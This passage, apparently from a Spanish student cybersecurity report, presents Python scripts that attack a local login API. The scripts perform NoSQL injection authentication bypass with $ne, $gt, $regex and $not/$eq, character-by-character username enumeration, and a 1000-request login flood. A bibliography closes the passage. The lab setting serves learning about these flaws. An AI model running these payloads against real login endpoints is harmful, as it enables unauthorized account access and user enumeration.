 
El programa prueba letra por letra adivinando la contraseña dependiendo de la respuesta  del servidor    
Dependiendo de la longitud de la contraseña, puede tardar más o menos 

### inyeccion.py 

Este programa lleva a cabo varias pruebas para comprobar si el sistema es vulnerable a  inyecciones noSQL. Envía diferentes tipos de datos para comprobar si el servidor responde  como si el login fuera válido. El objetivo es detectar si el sistema de validación de datos está  funcionando correctamente o si permite el acceso del usuario sin contraseña. Se usan  operadores como $ne, $gt, $in, o $regex   
```python
import requests 
import json 
URL = 'http://localhost:3000/api/login' 
print("[*] ATAQUE DE INYECCIÓN NoSQL") 
print("-" * 50) 
Listado de inyecciones que se van a probar 
inyecciones = [ 
 { 
 'nombre': 'Inyección $ne (diferente que)', 
 'username': {'$ne': None},
 'password': {'$ne': None} 
 }, 
 { 
 'nombre': 'Inyección $gt (mayor que)', 
 'username': {'$gt': ''}, 
 'password': {'$gt': ''} 
 }, 
 { 
 'nombre': 'Inyección $in (está en)', 
 'username': {'$in': ['admin', 'root']}, 
 'password': {'$ne': None} 
 }, 
 { 
 'nombre': 'Inyección $regex (coincidencia)', 
 'username': {'$regex': '.*'}, 
 'password': {'$ne': None} 
 } 
] 
Bucle que recorre la lista de inyecciones anunciando cual se está probando en cada  momento 
for inyeccion in inyecciones: 
 print(f"\n[*] Probando: {inyeccion['nombre']}") 
 Construye el json que se enviará al servidor con la manipulación correspondiente  data = { 
 'username': inyeccion['username'], 
 'password': inyeccion['password'] 
 } 
  
 try: 
Envía la inyección al servidor y convierte la respuesta en JSON 
 response = requests.post(URL, json=data) 
 resultado = response.json() 
Verifica si el servidor responde como si el login fuera correcto (Detectando una  vulnerabilidad) 
 if 'Login exitoso' in resultado.get('message', ''): 
 print(f" [✓] ¡VULNERABILIDAD ENCONTRADA!") 
 print(f" Respuesta: {resultado}") 
 else: 
 print(f" [✗] No funcionó: {resultado.get('message')}") 
  
 except Exception as e: 
 print(f" [!] Error: {e}") 
print("\n" + "-" * 50) 
print("[*] Pruebas completadas ")
```

 

### carga.py 

Código el cual no pasa el login de manera convencional, sino que envía peticiones al  servidor en caso de carezca de medidas de seguridad para acceder de dicha manera   
```python
import requests 
Indica que repetirá el ataque 1000 veces  
for i in range(1000): 
Envía peticiones post al servidor objetivo 
 requests.post("http://localhost:3000/api/login", 
 json={"username": "admin", "malacontraseña": "test"}) 
Imprime el número de petición para saber el estado del proceso del código 
 print(f"petición {i}")
```
 
 

### enumeracion.py 

Este código funciona , en términos generales, como el código de regex.py , probando letra  por letra, pero sirve para poder sacar una lista de usuarios válidos. Prueba letra por letra  esperando la respuesta del login y poder averiguar letra por letra los usuarios que existen.  Se hizo con la idea de poder averiguar los usuarios que hay de un servicio en línea, antes  de intentar adivinar su contraseña   
```python
import requests 
import string 
Recibe la url que atacar, y un listado donde se guardarán los usuarios descubiertos  URL = "http://localhost:3000/api/login" 
headers = {"Content-Type": "application/json"} 
usuarios_encontrados = [] 
chars = string.ascii_lowercase + string.digits 
def encontrar_usuario(excluir): 
 usuario = "" 
 while True: 
Indica que el proceso se repetirá hasta que no queden usuarios 
 encontrado = False 
 for c in chars: 
Construye un json que verifica si existe algún usuario que existe con lo que se  encontró con el caracter anterior 
 payload = { 
 "username": {"$regex": f"^{usuario}{c}", "$nin": excluir},  "password": {"$ne": ""} 
 } 
Si el servidor responde con el código 200, considera el carácter correcto  añadiendolo al usuario en la lista y también envia la petición POST con el payload  inyectado 
 resp = requests.post(URL, json=payload, headers=headers)  if resp.status_code == 200: 
 usuario += c 
 print(f"[+] {usuario}") 
 encontrado = True 
 break 
Esta parte indica , en base a la respuesta del servidor(no 200), que el usuario ya  está 
 if not encontrado: 
 if usuario == "": 
 return None 
 return usuario 
while True: 
 nuevo = encontrar_usuario(usuarios_encontrados) 
 if nuevo is None: 
 break 
 print(f"[✓] {nuevo}\n") 
 usuarios_encontrados.append(nuevo)
```

 

### login.py 

Ataque que sirve para saltar la autenticación del login sin conocer la contraseña real. Se  basa en una falla de Mongodb que consiste en que la contraseña puede ser cualquiera  menos el valor especificado. De tal manera que como la contraseña no coincide con el valor  en el código, considerando la petición de login verdadera, siendo una vulnerabilidad crítica  de autenticación de la API   
```python
import requests 
URL = "http://localhost:3000/api/login" 
print("inyección nosql con $not y $eq") 
print("-" * 50) 
payload = { 
Nombre del usuario atacado 
 "username": "admin", 
Se envia la contraseña erronea siendo una inyección 
 "password": { "$not": { "$eq": "cualquiercosa" } } 
} 
print(payload) 
Envía el ataque 
resp = requests.post(URL, json=payload) 
try: 
Intenta leer la respuesta como json 
 data = resp.json() 
 print("Respuesta") 
 print(data) 
except: 
 print("respuesta no válida del servidor") 
print("-" * 50)
```
 

# Bibliografía 

Admin, 2025. Cibersseguridad en IoT: Cómo proteger dispositivos intellinos eficazmente.  [En línea]  
Available at: https://tecnoblog.pro/ciberseguridad-en-iot-como-proteger-dispositivos inteligentes-eficazmente/ 
[Último acceso: 10 1 2026]. 
Anon., 2024. Virus y otras amenazas. [En línea]  
Available at: https://www.incibe.es/ciudadania/tematicas/virus-amenazas [Último acceso: 9 1 2026]. 
Anon., 2025. MongoDB - Comparison Query Operators. [En línea]  
Available at: https://www.geeksforgeeks.org/mongodb/mongodb-comparison-query operators/ 
[Último acceso: 20 12 2025]. 
C.A., T. U., 2024. MongoDB & NoSQL. [En línea]  
Available at: https://onmind.net/code/es/MongoDB 
[Último acceso: 20 12 2025]. 
casmar, 2025. Principales riesgos de seguridad en IoT en 2025 y cómo protegerse. [En  línea]  
Available at: https://www.casmarglobal.com/es/blog/post/principales-riesgos-de-seguridad en-iot-en-2025-y-como-protegerse 
[Último acceso: 2 1 2026]. 
CiberSafety, 2026. Sniffing. [En línea]  
Available at: https://cibersafety.com/diccionario/sniffing/ 
[Último acceso: 9 1 2026]. 
Cloudflare, 2022. Protege tu organización con la plataforma Zero Trust de Cloudflare. [En  línea]  
Available at: https://www.cloudflare.com/es-es/lp/dg/product/zero-trust security/?utm_medium=cpc&utm_source=google&utm_campaign=ao-fy-acq-emea_es modernsec-ge-txt-general 
generic_zerotrust&utm_content=zero_trust_core&gclsrc=aw.ds&&utm_term=zero%20trust_ go_cmp-221488095 
[Último acceso: 11 1 2026]. 
Díez, M., 2023. 5 Razones por las que la Gestión de Dispositivos Android & Apple (MDM) es  Imprescindible. [En línea]  
Available at: https://www.applivery.com/es/blog/gestion-de-dispositivos/porque-gestionar dispositivos-mdm/ 
[Último acceso: 9 1 2026]. 
EALDE, 2021. Vulnerabilidades de ciberseguridad en dispositivos móviles. [En línea]  Available at: https://www.ealde.es/vulnerabilidades-en-dispositivos-moviles/ [Último acceso: 2 1 2026]. 
IBM, 2025. ¿Qué es la gestión de dispositivos móviles (MDM)?. [En línea]  Available at: https://www.ibm.com/es-es/think/topics/mobile-device-management [Último acceso: 4 1 2026]. 
Incibe, 2022. Buenas prácticas en la Seguridad de Dispositivos Móviles. [En línea]  Available at: https://ciberseguridad.castillalamancha.es/sites/default/files/2025-
05/BP_Configuracion_de_seguridad_en_tablets_y_smartphones.pdf 
[Último acceso: 3 1 2026]. 
ivanti, 2025. Proteja tus dispositivos móviles de ataques y aplicaciones peligrosas. [En línea]  Available at: https://www.ivanti.com/es/autonomous-endpoint-management/mobile-security [Último acceso: 4 1 2026]. 
ManageEngine, 2022. Cumplimiento de la norma ISO 27001 con ManageEngine Mobile  Device Manager Plus. [En línea]  
Available at: https://www.manageengine.com/latam/mobile-device 
management/cumplimiento-norma-iso-27001.html 
[Último acceso: 8 1 2026]. 
móvil, F. y., 2025. Conoce los tipos de virus que pueden infectar tu móvil. [En línea]  Available at: https://ayudacliente.vodafone.es/particulares/seguridad-y-prevencion/virus-y estafas/conoce-los-tipos-de-virus-que-pueden-infectar-tu-movil/ 
[Último acceso: 3 1 2026]. 
Rinaldi, P., 2017. Los Retos De La Seguridad En Los Dispositivos Móviles. [En línea]  Available at: https://www.le-vpn.com/es/los-retos-de-la-seguridad-en-los-dispositivos moviles/ 
[Último acceso: 3 1 2026]. 
Serrano, M., 2024. Estrategia ‘Zero Trust’, clave para la evolución y la resiliencia. [En línea]  Available at: https://www.redseguridad.com/asi-fue-eventos-redseguridad/estrategia-zero trust-clave-para-la-evolucion-y-la-resiliencia_20240911.html 
[Último acceso: 11 1 2025]. 
Squirrel, S. t. S., 2024. ¿Qué es la Gobernanza de Seguridad de la Información en  Ciberseguridad?. [En línea]  
Available at: https://www.kiteworks.com/es/gestion-de-riesgos-de 
ciberseguridad/gobernanza-seguridad-en-ciberseguridad/ 
[Último acceso: 12 1 2025]. 
Tecnocosas, 2024. Ciberseguridad en 2025: Cómo proteger tus dispositivos de ataques. [En  línea]  
Available at: https://www.tecnocosas.es/ciberseguridad-en-2025-como-proteger-tus dispositivos-de-ataques/ 
[Último acceso: 10 1 2026]. 
Tecnología, I. N. d. E. y., 2024. El Marco de Seguridad Cibernética (CSF) 2.0 del NIST. [En  línea]  
Available at: https://nvlpubs.nist.gov/nistpubs/CSWP/NIST.CSWP.29.spa.pdf [Último acceso: 12 1 2026]. 
TemplarCiber, 2022. Guía para Crear una Matriz de Riesgo. [En línea]  Available at: https://www.templarciberseguridad.com/matriz_riesgo.html [Último acceso: 8 1 2026].
